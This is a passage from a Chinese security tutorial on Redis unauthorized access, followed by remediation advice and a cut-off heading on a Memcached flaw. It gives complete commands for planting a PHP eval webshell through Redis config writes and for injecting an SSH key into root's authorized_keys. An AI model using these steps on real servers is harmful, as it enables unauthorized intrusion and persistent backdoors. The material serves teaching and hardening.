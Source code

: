 ```
./redis-cli -h 192.168.10.153
Info
```

就可以看到 Redis 的版本和服务器上内核的版本信息，也可以 del key 删除数据，在网站写入木马，写入 SSH 公钥，或者在 crontab 里写定时任务，反弹 shell 等。

(1) 网站写码：

① 先用客户端连接服务器的 redis 服务：`redis-cli.exe -h 目标IP`

② 连接后设置目录：`config set dir /var/www/html（此路径是服务器端 Web 网站的目录）`

③ 设置要写入的文件名：`config set dbfilename redis88.php`

④ 设置要写入的内容：`set webshell "<?php @eval($_POST['123']); ?>"`

⑤ 保存：`save`

⑥ 保存后用菜刀连接此木马得到 webshell。

(2) 结合 SSH 免密码登录：

① 先在本地建个 ssh 的密钥：`ssh-keygen-trsa`

② 将公钥的内容写到一个文本中，命令如下：`(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt`

注意：写到文件中时一定要在前面加几行后面加几行。

③ 将里面的内容写入远程的 Redis 服务器上，并且设置其 Key 为 test，命令如下：`cat test.txt | redis -cli -h <hostname> -x set test`

④ 登录远程服务器，可以看到公钥已经添加到 Redis 的服务器上了，命令如下：

```
redis-cli -h <hostname>
keys *
get test
```
⑤ 随后就是最关键的了，Redis 有个 save 命令：save 命令执行一个同步保存操作，将当前 Redis 实例的所有数据快照（snapshot）以 RDB 文件的形式保存到硬盘。所以，save 命令就可以将 test 里的公钥保存到 /root/.ssh 下（要有权限）。

修改保存的路径为 `config set dir "/root/.ssh"`修改文件名为 `config set dbfilename "authorized_keys"`保存。

⑥ 测试一下：`ssh 用户名@<IP地址>`实现免密码成功登陆。

---

#### 修复方法

(1) 设置 Redis 访问密码，在 redis.conf 中找到 "requirepass" 字段，在后面填上强口令，redis 客户端也需要此密码来访问 redis 服务。

(2) 配置 bind 选项，限定可以连接 Reids 服务器的 IP，并修改默认端口 6379。

(3) 重启 Redis 服务。

(4) 清理系统中存在的后门木马。

---

### 3 Memcached 未授权访问漏洞（CVE-2013-7239）

---